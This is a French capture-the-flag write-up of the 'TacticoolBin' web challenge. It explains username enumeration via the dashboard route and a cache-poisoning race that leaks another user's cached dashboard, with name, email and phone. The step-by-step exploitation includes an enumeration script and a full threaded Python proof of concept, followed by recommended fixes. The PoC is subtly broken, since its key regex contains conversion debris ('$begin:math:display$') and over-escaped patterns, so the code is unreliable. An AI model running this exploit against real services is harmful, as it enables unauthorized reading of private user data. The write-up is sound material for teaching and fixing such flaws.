







# TacticoolBin — Writeup détaillé

> Enoncé  
> "I only had one job ! Reading Larry's message at 6:00 on this pastebin like website."  
> That's what you said to yourself whilst calmly waking up at 9:30. Find another way to get in touch with Larry!  
> L'app est open-source. Larry utilise son propre nom comme username et aime le l33T.  
> Flag : `ECW{username-phone_number-domain_name_of_his_email}`

---

## Étape 1 - Analyse du code source

L'analyse du code source permet d'identifier plusieurs vulnérabilités :

### 1 - L'application est vulnérable à l'énumération d'utilisateurs


On peut voir sur la route `/dashboard/<username>` que la réponse varie selon que l'utilisateur existe ou non (status, contenu, longueur). Le code fait `User.query.filter_by(username=username).first()` et renvoie des templates/redirects différents. C'est exploitable pour confirmer l'existence d'un compte.

**Où regarder**
- `app.py` : route `/dashboard/<username>`
- `login` / `register` : messages d'erreur distincts

**Preuve**
- Différence de `StatusCode` ou `Content-Length` entre `GET /dashboard/larry` et `GET /dashboard/nonexistent`.

http://challenges.challenge-ecw.eu:34915/dashboard/test1


http://challenges.challenge-ecw.eu:34915/dashboard/admin
  
*Ici on remarque également que l'utilisateur a été **alerté** ! *

---

### 2 - L'application est vulnérable au cache poisoning (cache poisoning + race)


En parcourant `app.py` et les templates on identifie ces points critiques :

- Initialisation unique du cache : `cache = Cache(app)` : même instance pour messages et vues.
- Dashboard avec `@cache.cached(timeout=0, unless=unauthorized)` → cache permanent si le propriétaire consulte son dashboard.
- Création d'un message :

- Homepage : lit `cache.get(title)` et injecte le résultat dans `const messages = [...]` côté client.

**Conclusion** : clé de cache prévisible (`view//dashboard/<username>`), cache partagé et `sleep(0.5)` créent une fenêtre de race exploitable pour lire le dashboard d'un autre utilisateur.

---

## Étape 2 - Enumération d’utilisateurs

Objectif : confirmer l’existence de Larry (et variantes l33t) avant d’attaquer le cache poisoning.

**Approche**
- Construire une wordlist ciblée : variantes l33t et casse de "larry" (ex : `Larry, larry, L4rry, L4Rry, l4rry, L4rry1337`).
- Tester `/dashboard/<username>` et comparer `Status` et `Content-Length`.
- Utiliser Burp Intruder (petite wordlist) et monitorer différences.

**Script rapide **
```py
import requests
BASE='http://TARGET'
cands = ['Larry','larry','L4rry','L4Rry','l4rry','L4rry1337']
for u in cands:
    r = requests.get(f'{BASE}/dashboard/{u}', allow_redirects=False)
    print(u, r.status_code, len(r.text))
```

*Il se peut que la réponse ne soit pas correctement récupérer, au vu du peut de possibilité, nous pouvons essayer a la main.*



---

## Étape 3 - Plan d'attaque

1. Confirmer l'username de Larry (énumération). → `L4Rry`.
2. Construire la clé cache cible : `view//dashboard/L4Rry`.
3. Envoyer un message avec la requête `POST /` et `title = "view//dashboard/L4Rry"`.
4. Pendant le `time.sleep(0.5)` côté serveur, faire un `GET /` pour récupérer `const messages = [...]`.
5. Parser l'entrée correspondante et extraire username / email / phone.
6. Construire le flag au format demandé.

---

## Étape 4 - Exploitation technique (PoC)

### 4.1 - PoC Python

```py
#!/usr/bin/env python3
"""
Exploit pour récupérer les données de L4Rry via race condition
"""
import requests
import threading
import time
import re
import json
import argparse
from queue import Queue

# Args
parser = argparse.ArgumentParser()
parser.add_argument('--base', required=True, help='Base URL (e.g. http://host:port)')
parser.add_argument('--key', required=True, help='Cache key to target (e.g. view//dashboard/L4Rry)')
parser.add_argument('--ttl', type=int, default=5, help='TTL for posted message')
parser.add_argument('--delay', type=float, default=0.16, help='Delay before GET (seconds) to hit race window')
parser.add_argument('--tries', type=int, default=50, help='Number of attempts')
parser.add_argument('--verbose', action='store_true')
args = parser.parse_args()

BASE = args.base.rstrip('/')
CACHE_KEY = args.key
TTL = args.ttl
DELAY = args.delay
TRIES = args.tries
VERBOSE = args.verbose

# Session avec cookies de test
session = requests.Session()
result_q = Queue()
stop_event = threading.Event()

def do_post():
    """Send the POST that will create the message (and start sleep on server)."""
    try:
        payload = {'title': CACHE_KEY, 'message': 'X', 'ttl': TTL}
        r = session.post(BASE + '/', json=payload, timeout=5)
        if VERBOSE:
            print(f"[POST] status={r.status_code} len={len(r.content)}")
    except Exception as e:
        if VERBOSE:
            print(f"[POST] error: {e}")

def trigger_larry_dashboard():
    """Trigger L4Rry dashboard access to populate cache with his data"""
    try:
        # Accéder au dashboard de L4Rry pour déclencher le cache
        r = session.get(BASE + '/dashboard/L4Rry', timeout=5)
        if VERBOSE:
            print(f"[LARRY_DASHBOARD] status={r.status_code} len={len(r.content)}")
            if r.status_code == 200 and len(r.content) > 1000:
                print(f"[LARRY_DASHBOARD] Content preview: {r.text[:200]}...")
    except Exception as e:
        if VERBOSE:
            print(f"[LARRY_DASHBOARD] error: {e}")

def do_get_and_parse():
    """Wait DELAY seconds, GET homepage and try to parse messages. Put result in queue if found."""
    try:
        time.sleep(DELAY)
        r = session.get(BASE + '/', timeout=8)
    except Exception as e:
        if VERBOSE:
            print(f"[GET] error: {e}")
        return

    if VERBOSE:
        print(f"[GET] status={r.status_code} len={len(r.text)}")

    # find the JS array
    m = re.search(r'const messages = ($begin:math:display$.*?$end:math:display$);', r.text, re.DOTALL)
    if not m:
        if VERBOSE:
            print("[GET] no 'const messages' found in response")
        return

    raw = m.group(1)
    # try to load JSON safely
    try:
        msgs = json.loads(raw)
    except Exception as e:
        if VERBOSE:
            print(f"[GET] json.loads error: {e}")
        return

    for msg in msgs:
        title = msg.get('title')
        if title != CACHE_KEY:
            continue
        # message field may be None; check
        html = msg.get('message')
        if not html:
            if VERBOSE:
                print("[GET] target message present but 'message' is None/empty")
            continue

        if VERBOSE:
            print(f"[GET] Found message content: {html[:200]}...")

        # Now parse html safely
        username = re.search(r'Welcome,\\s*([^!<]+)!', html)
        email = re.search(r'email is\\s*([^!<\\s]+)', html)
        phone = re.search(r'phone number is\\s*([^!<\\s]+)', html)

        username_v = username.group(1).strip() if username else None
        email_v = email.group(1).strip() if email else None
        phone_v = phone.group(1).strip() if phone else None

        if any([username_v, email_v, phone_v]):
            result = {'username': username_v, 'email': email_v, 'phone': phone_v, 'raw_snippet': html[:400]}
            result_q.put(result)
            stop_event.set()
            return
        else:
            if VERBOSE:
                print("[GET] target message found but regexes yielded no data")
    # not found
    return

def attempt_once():
    t_post = threading.Thread(target=do_post)
    t_larry = threading.Thread(target=trigger_larry_dashboard)
    t_get = threading.Thread(target=do_get_and_parse)
    
    t_post.start()
    t_larry.start()
    # small stagger to ensure POST hits server first
    time.sleep(0.02)
    t_get.start()
    
    t_post.join()
    t_larry.join()
    t_get.join()

if __name__ == "__main__":
    print(f"Target: {BASE} | Key: {CACHE_KEY} | Delay: {DELAY}s | Tries: {TRIES}")
    for i in range(TRIES):
        if stop_event.is_set():
            break
        if VERBOSE:
            print(f"\n[Attempt {i+1}/{TRIES}]")
        attempt_once()
        # check queue
        if not result_q.empty():
            res = result_q.get()
            print("\\n=== FOUND ===")
            print("username:", res.get('username'))
            print("email:   ", res.get('email'))
            print("phone:   ", res.get('phone'))
            print("raw snippet (truncated):\\n", res.get('raw_snippet'))
            break
        else:
            if VERBOSE:
                print("[+] not found, retrying...")
            time.sleep(0.15)  # small backoff
    else:
        print("[-] Exploit did not find data. Try tuning --delay, increase --tries or run locally to test timing.")
```


### 4.2 - PoC Burp Suite (manuel)
- Intercepter requests `POST /` et la requête `GET /` .
- Crée un groupe avec les deux requête
- Envoyé en **parallel** (pour respecté le délai de du sleep(0.5) ) 


> Étant donné que nous avons identifié l’utilisateur **Larry** et que cela l’a alerté, son **dashboard** a été mis en cache lorsqu’il s’est connecté et a visité sa page.

> Le **hook** @cache.cached(timeout=0, unless=unauthorized) applique un cache permanent et crée la clé view//dashboard/L4Rry.

> Comme le site utilise la même instance de cache pour les messages, il suffit d’utiliser cette clé comme title pour lire (ou écraser) le contenu mis en cache via cache.get(...) exposé dans le JS côté client.

---

## Étape 5 - Extraction & parsing

Extrait trouvé dans `const messages` :
```json
{
  "title": "view//dashboard/L4Rry",
  "message": "<!DOCTYPE html>...Your email is Congr@tulat.on!...phone number is 1333333337..."
}
```

Regex utiles :
- `Welcome,\s*([^!<]+)!` → username
- `email is\s*([^!<\s]+)` → email
- `phone number is\s*([^!<\s]+)` → phone

Données extraites :
- Username : `L4Rry`
- Email : `Congr@tulat.on` → domaine `tulat.on`
- Phone : `1333333337`

Flag :
```
ECW{L4Rry-1333333337-tulat.on}
```

---

## Étape 6 - Correctifs recommandés

1. Séparer les caches : instance distincte ou préfixer les clés (`msg:<title>`).  
2. Ne pas utiliser `title` brut comme clé de cache.  
3. Supprimer `time.sleep` bloquant ou faire `cache.set()` immédiatement après `append()`.  
4. Ne pas exposer `cache.get()` directement côté client.  
5. Éviter `timeout=0` sur des vues contenant des données sensibles.

---

## Conclusion
> La faille s’explique par : 
> 1) Le même cache utilisé pour plusieurs fonctions, 
> 2) Un ordre d’opérations incorrect (on ajoute l’entrée puis on attend avant d’écrire le cache, ce qui crée une fenêtre d’exploitation), 
> 3) L’exposition des données côté client. L’exploitation est simple ; les correctifs sont directs.

---

## Flag final
```
ECW{L4Rry-1333333337-tulat.on}
```
